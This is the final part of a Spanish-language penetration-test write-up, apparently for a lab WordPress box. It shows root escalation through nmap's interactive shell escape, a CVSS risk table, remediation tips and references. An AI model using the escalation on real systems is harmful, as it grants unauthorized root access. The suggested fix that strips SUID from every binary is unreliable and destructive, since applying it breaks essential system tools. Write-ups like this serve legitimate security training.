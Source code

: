 ### 8. Escalada Final con Nmap
```bash
nmap --interactive
nmap> !sh
whoami  # root
```

## **Conclusión**

### Matriz de Riesgos
| Vulnerabilidad | CVSS | Impacto |
|---------------|------|---------|
| Weak WordPress Credentials | 8.8 | Crítico |
| Unrestricted File Upload | 8.0 | Alto |
| Privilege Escalation via SUID | 7.8 | Alto |

### Recomendaciones
1. **Para WordPress**:
```bash
# Limitar intentos de login
install-plugin limit-login-attempts-reloaded
```
2. **Para el sistema**:
```bash
# Eliminar SUID peligrosos
find / -perm -4000 -exec chmod u-s {} \;
```

> 🔐 **Aviso Ético**: Todo contenido es para fines educativos en entornos controlados. El hacking no autorizado es ilegal.

---

**Stack Tecnológico**:
- `nmap` 7.92+
- `wpscan` 3.8.22
- `hashcat` 6.2.5
- `metasploit-framework` 6.1+

**Referencias**:
1. [WPScan Vulnerability Database](https://wpscan.com/vulnerabilities)
2. [NIST SP 800-123: Web Security](https://csrc.nist.gov/publications/detail/sp/800-123/final)
3. [Linux Privilege Escalation Guide](https://github.com/swisskyrepo/PayloadsAllTheThings)
